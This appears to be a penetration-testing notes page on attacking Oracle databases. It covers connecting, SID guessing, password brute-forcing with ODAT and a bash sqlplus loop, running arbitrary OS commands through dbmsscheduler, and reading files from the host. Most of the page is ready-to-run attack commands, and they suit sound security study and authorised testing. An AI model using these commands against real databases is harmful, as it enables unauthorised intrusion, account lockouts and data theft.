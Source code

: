 # Oracle Databases

Oracle databases are not commonly encountered in CTF challenges, but are very common in corporate environments. Further, [versions &lt;12.1](https://docs.oracle.com/database/121/NTQRF/ap_services.htm#NTQRF700) will by default run with SYSTEM level privileges making these a very desirable attack vector.

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool. This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data. However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information. Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running. However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux). For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).  Use [oracle-instantclient](https://github.com/bumpx/oracle-instantclient) for binaries.

[PentestMonkey Oracle SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
[Oracle Database/SQL Cheatsheet](https://en.wikibooks.org/wiki/Oracle_Database/SQL_Cheatsheet)

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```text
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set. Alternatively pass the `--sysdba` flag to ODAT when logging in:

```text
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service. Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible. Use this flag with any of the below modules to ensure they work correctly.

If using ODAT, I'd also advise passing the `-vvv` flag once you ensure a module is working as it will allow you to debug the SQL commands, and see how they work behind the scenes.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host. These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack. These have to be explicity set in the command so it's important that you verify any one's available:

```text
./odat.py sidguesser -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case. Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```text
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate. I'm joking, don't do that. Do not do that! This means you have to be very careful when enumerating database users, and I'd advise sticking to either reused credentials or default password lists specifically targeting Oracle.

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/bin/sqlplus64 -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as `xp_cmdshell` for Oracle databases, but we do have options. We can use `dbmsscheduler` in odat to execute arbitrary commands, however the results are not displayed. You'll have to use one of the many file transfer methods to fetch the output of this command.

```text
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```text
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```text
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](https://github.com/Reboare/virgil/tree/a351ca46a5878a5ce9a56487f86be1220237a833/h%20ttp:/www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)  
[HTB Silo Writeup by 0xEA31 - Enumeration Techniques](https://forum.hackthebox.eu/discussion/973/silo-write-up-unintended-without-odat-by-0xea31)

